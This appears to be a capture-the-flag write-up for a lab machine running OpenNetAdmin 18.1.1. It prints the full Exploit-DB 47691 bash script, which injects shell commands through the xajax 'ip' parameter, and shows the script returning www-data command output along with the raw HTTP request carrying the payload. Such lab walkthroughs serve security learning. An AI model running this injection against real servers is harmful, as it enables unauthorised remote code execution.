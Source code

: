 ```
OpenNetAdmin 18.1.1 - Remote Code Execution                                                                                                                                                                | php/webapps/47691.sh
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
It seems like OpenNetAdmin is affected by a RCE vulnerability, so let's try to leverage this and gain an initial foothold on the box.

## Foothold
Now that we found an exploit let's mirror ```php/webapps/47691.sh``` into our exploits/ directory and let's start examine what the exploit is about:  
```
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl -x --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
As we can see the exploit is made of only one curl; the command execution is wrapped between ```BEGIN``` and ```END``` and sed extracts the result of command execution.  
Now let's try this exploit:  
```
[root@kali exploits ]$ ./47691.sh 10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Now, as always, since the exploit works, let's send it over burp and analyze what is going on:  
```
POST /ona/ HTTP/1.1
Host: 10.10.10.171
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 126
Content-Type: application/x-www-form-urlencoded
Connection: close

xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo "BEGIN";id;echo "END"&xajaxargs[]=ping
```
In the HTTP response, we can see within the html the following output of our RCE wrapped between BEGIN and END
```
```